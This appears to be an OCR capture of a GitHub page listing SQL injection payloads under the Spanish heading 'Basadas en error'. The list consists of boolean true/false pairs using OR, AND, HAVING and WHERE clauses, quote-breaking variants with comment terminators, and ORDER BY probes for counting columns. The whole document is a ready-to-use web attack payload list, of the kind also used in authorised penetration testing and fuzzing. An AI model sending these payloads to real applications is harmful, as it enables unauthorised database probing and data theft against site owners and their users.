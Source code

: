 Basadas en error:

```sql
 OR 1=1
 OR 1=0
 OR x=x
 OR x=y
 OR 1=1#
 OR 1=0#
 OR x=x#
 OR x=y#
 OR 1=1-- 
 OR 1=0-- 
 OR x=x-- 
 OR x=y-- 
 OR 3409=3409 AND ('pytW' LIKE 'pytW
 OR 3409=3409 AND ('pytW' LIKE 'pytY
 HAVING 1=1
 HAVING 1=0
 HAVING 1=1#
 HAVING 1=0#
 HAVING 1=1-- 
 HAVING 1=0-- 
 AND 1=1
 AND 1=0
 AND 1=1-- 
 AND 1=0-- 
 AND 1=1#
 AND 1=0#
 AND 1=1 AND '%'='
 AND 1=0 AND '%'='
 AND 1083=1083 AND (1427=1427
 AND 7506=9091 AND (5913=5913
 AND 1083=1083 AND ('1427=1427
 AND 7506=9091 AND ('5913=5913
 AND 7300=7300 AND 'pKlZ'='pKlZ
 AND 7300=7300 AND 'pKlZ'='pKlY
 AND 7300=7300 AND ('pKlZ'='pKlZ
 AND 7300=7300 AND ('pKlZ'='pKlY
 AS INJECTX WHERE 1=1 AND 1=1
 AS INJECTX WHERE 1=1 AND 1=0
 AS INJECTX WHERE 1=1 AND 1=1#
 AS INJECTX WHERE 1=1 AND 1=0#
 AS INJECTX WHERE 1=1 AND 1=1--
 AS INJECTX WHERE 1=1 AND 1=0--
 WHERE 1=1 AND 1=1
 WHERE 1=1 AND 1=0
 WHERE 1=1 AND 1=1#
 WHERE 1=1 AND 1=0#
 WHERE 1=1 AND 1=1--
 WHERE 1=1 AND 1=0--
 ORDER BY 1-- 
 ORDER BY 2-- 
 ORDER BY 3-- 
 ORDER BY 4-- 
 ORDER BY 5-- 
 ORDER BY 6-- 
 ORDER BY 7-- 
 ORDER BY 8-- 
 ORDER BY 9-- 
 ORDER BY 10-- 
 ORDER BY 11-- 
 ORDER BY 12-- 
 ORDER BY 31337-- 
```